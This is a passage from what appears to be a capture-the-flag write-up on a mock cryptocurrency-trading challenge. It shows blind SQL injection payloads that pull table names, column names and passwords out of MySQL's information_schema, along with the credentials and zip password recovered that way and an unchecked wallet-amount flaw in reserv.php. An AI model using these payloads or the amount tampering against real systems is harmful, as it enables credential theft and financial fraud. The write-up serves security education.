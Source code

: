 ```
user(): db_manager@localhost
database(): userdata
version(): 5.7.25-0ubuntu0.18.04.2
```

But it is a little hard to dump schema name, table name, column name by this script.

After discussing with my teammate @bookgin, we found a method can dump schema_name, table_name and column name.

- Dump table name

    - `0' |(select count(*) from (select table_schema,table_name from information_schema.tables having table_schema !="sys" and table_schema !="mysql" and table_schema !="performance_schema" and table_schema !="information_schema" and table_name regexp "[a-z].*") as b)| '0`

(if the regex pattern matches, the value of `ac` in the info page will show a number > 0)

- Dump column name
    - `0' |(select count(*) from (select column_name from information_schema.columns having table_name="users" and column_name regexp ".*") as b)| '0`

- Dump value
    - `0' |(select count(*) from (select id, pw from userdata.users having id="MASTER" and pw regexp ".*") as b)| '0` 

Result:

there is two tables in the `userdata` db:
- users
    - id
    - pw
    - ac
- user_wallet

And we found a user `MASTER` with password `master`, but this is fake user lol.

There is another user `admin` with password `hacker` and ac `ADMIN_ACC0UNTS`.

After login as `admin`, we can view the `TOP SECRET` now:

```
They are manipulating the price of coins!! 
How can this be? When I knew that, I decided to expose that.
Fortunately, I have a MASTER PASSWORD (not flag). It is..


'D0_N0T_RE1E@5E_0THER5'
Also, they have set up evidence to not be searched(googling). 
If you read this message, please found evidence and expose it.
```

so the password of zip file is `D0_N0T_RE1E@5E_0THER5`.

<br>

I found there is a logic vulnerabilty in `reserv.php` after code review.

we can assign arbitrary number to `$_POST['amount']` in `reserv.php`, and it will update the amount of `user_wallet`.
